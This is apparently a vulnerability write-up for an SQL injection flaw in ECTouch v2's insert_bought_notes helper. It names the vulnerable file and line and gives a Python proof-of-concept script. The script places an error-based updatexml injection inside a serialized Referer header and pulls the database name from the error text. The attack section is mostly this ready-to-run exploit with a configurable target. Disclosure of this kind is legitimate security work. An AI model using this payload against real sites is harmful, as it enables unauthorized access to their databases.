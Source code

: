 #SQL Injection Vulnerability in ECTouch v2

###Vulnerability Position

![image-20230725194201086](assets/image-20230725194201086.png)

In the insert_bought_notes function on line 285 in the \ectouch-main\include\apps\default\helpers\insert.php file, the incoming $arr['id'] parameter is not verified, resulting in a sql injection vulnerability.

###POC

Use python to write scripts for vulnerability verification.

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# @Author : qyg
# @File : sqli check for ECTouch v2
# @function : Detect for SQL injection vulnerabilities in ECTouch.

import requests,re

#your target
target = 'http://127.0.0.1/'

payload = '/index.php?m=default&c=user&a=register&u=0'

url = target + payload

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54',
    'Referer': '554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:1:{s:2:"id";s:49:"0&&updatexml(1,concat(0x7e,(database()),0x7e),1)#";}'
}

response = requests.get(url, headers=headers)

print(response.text)

match = re.search('XPATH syntax error: \'~(.*)~\'',response.text)

if match:
    print("There is SQL injection vulnerability, and you are currently using the following database:" + match.group(1))
```

Running results:

![image-20230725194717465](assets/image-20230725194717465.png)